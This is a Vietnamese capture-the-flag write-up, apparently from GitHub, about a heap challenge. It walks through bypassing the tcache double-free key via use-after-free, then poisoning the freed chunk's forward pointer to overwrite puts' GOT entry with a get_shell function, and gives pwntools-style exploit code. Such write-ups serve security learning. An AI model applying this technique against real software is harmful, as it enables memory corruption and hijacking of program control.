










# 1. Find Bug : 



- Có bug `UAF` ở hàm `free`




- Có hàm `get_shell`

# 2. Idea :




- `Partial RELRO` + `PIE` tắt -> Tận dụng `double free` để overwrite `forward pointer` -> `got` puts -> `get_shell`

# 3. Exploit :

- Thử `free` xem bản libc này có `key` chống `double free` thẳng một cách dễ dàng chưa 




-  -> Vậy đã có `key`, ý tưởng sẽ là tận dùng `uaf` + hàm `modify` để overwrite `key` để có thể `double free`




- Trước hết cứ tạo 2 chunk và xóa 1 chunk đi



-------------

```
create(0x100, b'0' * 0x100)
create(0x100, b'1' * 0x100)
slna(b'> ', 3)
dell(0)
```

- Ko hiểu sao chọn `option 3` rồi nó vẫn hỏi lại nên phải chèn thêm 1 lần `slna(b'> ', 3)` 

- Tiếp đến ta cần overwrite `key : 0x000000000606e010` thành 1 số bất kì để có thể `double free`

```
edit(0, 0x10, p64(0) + p64(0))
dell(0)
```
--------------



- Như đã check thì đã `double free` thành công 

- Tiếp theo ta sẽ overwrite `forward pointer` -> `got` puts

```
edit(0, 0x8, p64(exe.got.puts))
```
---------------



- Vậy cuối cùng ta chỉ cần malloc 1 lần để allocated phần tcache đầu, rồi malloc thêm lần nữa với data là hàm `get_shell` -> Overwrite thành công `got` puts thành hàm `get_shell`

```
create(0x100, b'2' * 0x100)
slna(b'> ', 1)
create(0x100, p64(exe.sym.get_shell))
```
--------------



# 4. Get Flag :



